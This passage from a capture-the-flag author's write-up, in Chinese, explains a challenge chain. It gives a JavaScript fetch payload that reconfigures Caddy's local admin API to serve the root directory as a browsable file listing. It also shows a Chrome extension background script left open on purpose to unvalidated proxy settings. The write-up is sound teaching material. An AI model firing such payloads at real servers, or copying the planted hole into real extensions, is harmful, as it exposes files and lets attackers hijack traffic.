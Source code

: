 ```go
				return APIError{
					HTTPStatus: http.StatusBadRequest,
					Err:        fmt.Errorf("reading request body: %v", err),
				}
			}
			body = buf.Bytes()
		}

		forceReload := r.Header.Get("Cache-Control") == "must-revalidate"

		err := changeConfig(r.Method, r.URL.Path, body, r.Header.Get("If-Match"), forceReload)
		if err != nil && !errors.Is(err, errSameConfig) {
			return err
		}
   }
}
```

最后我们需要制作一个json使得Caddy变成一个文件服务器直接列出根目录的内容，最后发送请求的js代码如下：

```javascript
fetch("http://127.0.0.1:2019/config/",{"method":"POST","body":`{"apps":{"http":{"http_port":8888,"https_port":8443,"servers":{"srv0":{"listen":[":8888"],"routes":[{"handle":[{"handler":"vars","root":"/"},{"browse":{},"handler":"file_server"}],"terminal":true}],"automatic_https":{"disable_redirects":true}}}}}}`,"mode":"no-cors","headers":{"content-type":"text/plain;/json"}})
```

### XSS

接下来是设计这个XSS部分，首先需要把浏览器插件塞进去，并且不能让浏览器插件显得太突兀（好像有点坏）。经过一番思考，我把这个代理做成了一个请求拦截器，让选手看起来是为了防止他们向外发送请求（最后确实把一些人带进了坑里，dbq）。

在出这个题之前，对浏览器插件的开发了解的不是很多，写这么个插件属实是照猫画虎，好在功能比较简单。这里吐槽一下Chrome的文档，写的是真不如MDN好。从插件的角度看，实际上有三种执行环境，"background"，"content scripts"，"page script"。第一个是权限最完整的执行环境，可以调用全部的已授权的Chrome API。第二个是与页面绑定在一起的，它与页面共享DOM，但不共享js上下文，还可以调用部分Chrome API并且与background进行通信，第三个就是正常的页面环境，即使是扩展插入的代码也无法调用任何的Chrome API（不过可以配置`externally-connectable`，让页面获得直接向扩展发送消息的能力）。

首先做一个background service worker，核心代码就是调用`chrome.proxy.settings.set`设置代理，然后注册一个Listener监听消息。这里的代码有一个非常奇怪的地方，为什么我要直接用从外面传进来的options，而不限定一下参数的范围。其实是为了后面的一个小小的出题点。

```javascript
function setProxy(options) {
  const config = {
    mode: "fixed_servers",
    rules: {
      singleProxy: options,
    },
  };
  try{
    chrome.proxy.settings.set({ value: config, scope: "regular" });
  }catch{}
}

chrome.runtime.onMessage.addListener(async function (
  request,
  sender,
  sendResponse
) {
  if (request.type == "setProxy") {
    setProxy(request.options);
    sendResponse({});
  }
});
```
